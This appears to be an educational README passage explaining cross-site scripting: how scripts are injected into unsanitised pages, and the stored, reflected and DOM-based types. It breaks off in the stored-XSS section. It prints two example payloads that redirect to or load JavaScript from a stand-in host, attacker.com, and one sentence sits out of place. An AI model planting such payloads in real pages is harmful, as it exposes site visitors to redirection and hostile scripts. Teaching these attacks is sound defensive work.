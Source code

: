 # What is Cross-site-scripting (XSS)

An XSS vulnerability occurs when attackers can execute custom scripts on a victim’s browser

These malicious scripts are often JavaScript code but can also be HTML, Flash, VBScript, or anything written in a language that the browser can execute.

# MECHANISM

In an XSS attack, the attacker injects an executable script into HTML pages viewed by the user

If the website doesn’t validate or sanitize the user input before constructing the confirmation message, the page source code would become 
the following: 
```code
<p>Thanks! You have subscribed <b><script>location="http://attacker.com";</script></b> to the newsletter.</p>
```

Validating user input means that the application checks that the user input meets a certain standard—in this case, does not contain malicious JavaScript code. 
Sanitizing user input, on the other hand, means that the application modifies special characters in the input that can be used to interfere with HTML logic before further processing. As a result, the inline script would cause the page to redirect to attacker.com.

XSS happens when attackers can inject scripts in this manner onto a page that another user is viewing. The attacker can also use a different syntax to embed malicious code. The src attribute of the HTML ```<script>``` tag allows you to load JavaScript from an external source. This piece of malicious code will execute the contents of http://attacker.com/xss.js/ on the 
victim’s browser during an XSS attack:
```code
<script src=http://attacker.com/xss.js></script>
```

# Types of XSS

- There are three kinds of XSS: 
1. stored XSS 
2. reflected XSS
3. DOM-based

XSS. The difference between these types is in how the XSS payload travels before it gets delivered to the victim user.
Some XSS flaws also fall into special categories: 
    - blind XSS 
    - self-XSS,

Stored Xss
    - Stored XSS happens when user input is stored on a server and retrieved unsafely. 
    - When an application accepts user input without validation, stores it in its servers, and then renders it on users’ browsers without sanitization. 
    - Malicious JavaScript code can make its way into the database and then to victims’ browsers.
    - Stored XSS is the most severe XSS type, because it has the potential of attacking many more users than reflected, DOM, or self-XSS.
